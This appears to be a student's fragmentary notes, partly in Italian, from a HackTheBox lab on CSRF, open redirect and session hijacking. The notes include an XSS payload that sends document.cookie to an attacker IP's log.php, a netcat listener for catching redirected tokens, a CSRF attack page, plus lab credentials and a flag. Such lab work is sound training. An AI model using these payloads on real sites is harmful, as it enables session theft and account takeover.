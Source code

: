Navigate to http://csrf.htb.net and log in to the application using the credentials below:

    Email: goldenpeacock467
    Password: topcat

troviamo il token e verifichiamo che corrisponde all'md5 dello username

```shell
$ echo -n goldenpeacock467 | md5sum
0bef12f8998057a7656043b6d30c90a2  -
```

creiamo una pagina malevolevola `press_start_2_win.html`

e avviamo il server python 

```shell
$ python -m http.server 1337
```

Open a New Private Window, navigate to http://csrf.htb.net and log in to the application using the credentials below:

    Email: crazygorilla983
    Password: pisces

e navighiamo su `http://<VPN/TUN Adapter IP>:1337/press_start_2_win.html.`

start > make > profilo publico

# Open redirect

http://oredirect.htb.net/?redirect_uri=/complete.html&token=bna0dkpkgeuti4if7366vb01go

nc -lvnp 1337

http://oredirect.htb.net/?redirect_uri=http://<VPN/TUN Adapter IP>:PORT&token=<RANDOM TOKEN ASSIGNED BY THE APP>







<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://10.10.15.253:8000/log.php?c=' + document.cookie;"></video>


s%3A-cGUiT3JyOadW9qkkFj1X3EF8BmsEjBf.L1jshCR8FfIsvgXEn51FFE3V%2BHHB%2BAYvRZYaiCa3FYE

http://minilab.htb.net/app/

Super Admin
@superadmin
superadmin@htb.net

Expert Info (Chat/Sequence): GET /?redirect_uri=/complete.html&token=FLAG{SUCCESS_YOU_PWN3D_US_H0PE_YOU_ENJ0YED} HTTP/1.1\r\n